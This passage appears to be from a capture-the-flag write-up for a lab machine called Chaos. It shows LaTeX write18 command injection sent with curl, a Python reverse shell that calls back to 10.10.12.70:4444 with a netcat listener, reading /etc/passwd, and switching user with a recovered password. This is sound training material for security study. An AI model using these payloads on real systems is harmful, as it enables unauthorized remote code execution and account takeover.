 3. Attempt RCE (Remote Code Execution):
   ```sh
   curl -d "content=\immediate\write18{id}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
   ```
   - Response:
     ```
     LOG:
     This is pdfTeX, Version 3.14159265-2.6-1.40.19 (TeX Live 2019/dev/Debian) (preloaded format=pdflatex)
      \write18 enabled.
     entering extended mode
     ...
     ...uid=33(www-data) gid=33(www-data) groups=33(www-data)
     ...
     ```
   __NOTE(S)__:
   - `\immediate\write18{id}` executed

4. Set-up Reverse Shell:
   - Local Terminal #1:
     ```console
     nc -lvp 4444
     ```
   - Local Terminal #2:
     ```sh
     cmd="python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.12.70\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

     curl -d "content=\immediate\write18{$cmd}&template=test1" http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3/ajax.php
     ```
   - `netcat` listener:
     ```console
     python -c 'import pty; pty.spawn("/bin/bash")'

     cat /etc/passwd | grep bash
     # root:x:0:0:root:/root:/bin/bash
     # sahay:x:1000:1000:choas:/home/sahay:/bin/bash
     # ayush:x:1001:1001:,,,:/home/ayush:/opt/rbash
     ```
     __NOTE(S)__:
     - The user, `ayush`, has a __restricted shell__ (`/opt/rbash`)
     ```console
     su ayush
     # Password: jiujitsu
     